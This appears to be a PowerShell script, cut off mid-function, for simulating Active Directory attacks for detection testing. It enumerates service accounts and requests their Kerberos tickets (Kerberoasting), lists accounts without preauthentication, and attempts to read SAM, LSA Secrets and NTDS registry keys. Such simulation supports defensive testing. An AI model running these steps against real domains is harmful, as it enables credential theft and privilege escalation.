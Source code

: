 **Attack Simulation Framework:**
```powershell
# PowerShell script para simulação de ataques AD
# AD_Attack_Simulation.ps1

# Kerberoasting Attack Simulation
function Simulate-Kerberoasting {
    Write-Host "[+] Simulating Kerberoasting Attack"

    # Enumerate service accounts with SPNs
    $SPNs = Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName

    foreach ($account in $SPNs) {
        Write-Host "    [>] Found SPN: $($account.SamAccountName) - $($account.ServicePrincipalName)"

        # Request service ticket (this generates event 4769)
        try {
            Add-Type -AssemblyName System.IdentityModel
            $ticket = New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $account.ServicePrincipalName
            Write-Host "    [✓] Ticket requested for $($account.ServicePrincipalName)"
        }
        catch {
            Write-Host "    [✗] Failed to request ticket: $($_.Exception.Message)"
        }
    }
}

# ASREPRoasting Attack Simulation
function Simulate-ASREPRoasting {
    Write-Host "[+] Simulating ASREPRoasting Attack"

    # Find accounts with "Do not require Kerberos preauthentication"
    $NoPreauth = Get-ADUser -Filter {DoesNotRequirePreAuth -eq $true}

    foreach ($account in $NoPreauth) {
        Write-Host "    [>] Found vulnerable account: $($account.SamAccountName)"

        # Simulate AS-REP request (this would generate logs)
        $username = $account.SamAccountName
        $domain = (Get-ADDomain).DNSRoot

        Write-Host "    [>] Simulating AS-REP request for $username@$domain"
    }
}

# Privilege Escalation Detection
function Simulate-PrivEsc {
    Write-Host "[+] Simulating Privilege Escalation Attempts"

    # Attempt to read sensitive registry keys
    $sensitiveKeys = @(
        "HKLM:\SAM\SAM\Domains\Account\Users",
        "HKLM:\SECURITY\Policy\Secrets",
        "HKLM:\SYSTEM\CurrentControlSet\Services\NTDS\Parameters"
    )

    foreach ($key in $sensitiveKeys) {
        try {
            Get-ItemProperty -Path $key -ErrorAction Stop
            Write-Host "    [!] Successfully accessed: $key"
        }
        catch {
```